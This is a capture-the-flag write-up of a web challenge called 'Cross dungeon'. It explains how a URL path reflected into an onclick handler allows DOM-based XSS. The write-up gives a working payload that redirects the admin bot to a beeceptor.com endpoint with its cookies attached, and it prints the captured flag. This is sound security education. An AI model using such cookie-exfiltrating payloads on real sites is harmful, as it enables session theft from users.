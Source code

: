 # Cross dungeon

Here is my writeup of the second web challenge of a private CTF. (Challenge by Mizu)

I flag it with an unintended method so you can check this [writeup](https://hippie.cat/post/Writeup/ESAIP-Qualif/Cross-site-dungeon) from Hippie to see the intended method.

## First look

We can see a little welcome page:

![first_look](images/first_look.png)

We have 2 interesting pages. First we can see the dungeon where we can fight a monster and secondly we can report an url to the administrator.

Let's take a look to the dungeon:

![dungeon](images/dungeon.png)

We can use 3 objects, a sword, a potion and a shield we'll use it later.

Now we'll check the report page:

![report](images/report.png)

Hum, we can see that the administrator takes a potion while checking our vulnerable page, we'll exploit that.

## Setup the vulnerability

This is a js application and we have to steal cookies so we can suppose that we'll exploit a DOM Based XSS. I let you check my [article](https://0xhorizon.eu/articles/xss-dom-based/) about this vulnerability.

Let's have a look to the code, here is the HTML code for the potion:

```html
<div class="item_attack" style="margin-right: auto;">
    <img class="center mgb-1" src="/static/images/potion.png" width="75px">
    <button id="potion" onclick="make_damage('Link', 'Potion', '30')">Potion</button>
</div>
```

Hum, in our url ``/dungeon/30/Link`` there is 'Link' so is the url reflected in JS ?

Let's try with ``/dungeon/30/Booyaaaa``:

```html
<div class="item_attack" style="margin-right: auto;">
    <img class="center mgb-1" src="/static/images/potion.png" width="75px">
    <button id="potion" onclick="make_damage('Booyaaaa', 'Potion', '30')">Potion</button>
</div>
```

Yeah! We know that the administrator clicks on the potion so it will execute the JS code in make_damage(). Let's exploit it!

## Exploitation

I wrote a twitter [post](https://twitter.com/Ruulian_/status/1452369937515876356) about something in js which is useful in our case, all parameters of JS functions are evaluated :p

But we are in a string, we just have to close the quote. Our payload will start with ``'``.

Now we are in the JS as we want now, we'll use my little trick and put a ``,``, now we are in the second parameter and we can do what we want!

We'll use a redirect to an endpoint like [Beeceptor](https://beeceptor.com) to get admin cookies, here is our payload now: ``', document.location.replace('https://challenge.free.beeceptor.com/'.concat(document.cookie))``.

But if we put this payload it will raise an error because the JS looks like that:

```html
<div class="item_attack" style="margin-right: auto;">
    <img class="center mgb-1" src="/static/images/potion.png" width="75px">
    <button id="potion" onclick="make_damage('', document.location.replace('https://challenge.free.beeceptor.com/'.concat(document.cookie))', 'Potion', '30')">Potion</button>
</div>
```

We'll finish with a ``,'`` to retrieve the end of the function:

```html
<div class="item_attack" style="margin-right: auto;">
    <img class="center mgb-1" src="/static/images/potion.png" width="75px">
    <button id="potion" onclick="make_damage('', document.location.replace('https://challenge.free.beeceptor.com/'.concat(document.cookie)), '', 'Potion', '30')">Potion</button>
</div>
```

``make_damage()`` takes 3 arguments but we gave 4, this is not a problem because the ``document.location.replace()`` is evaluated first :p

Let's try if our payload works!

Payload: ``http://172.17.0.2/dungeon/30/',document.location.replace('https://challenge.free.beeceptor.com/'.concat(document.cookie)),')``

## Testing locally

We have to click on potion because we know that the bot does it when checking our url, let's try!

![beeceptor](images/beeceptor.png)

Yeah! Our payload works well!

## Conclusion

We just have to report it to the administrator and get our flag :p

![flag](images/flag.png)

Flag: ``R2Lille{1NN3R_HTML_t0_XSS_3AzYYY}``

Thanks for this cool challenge ^^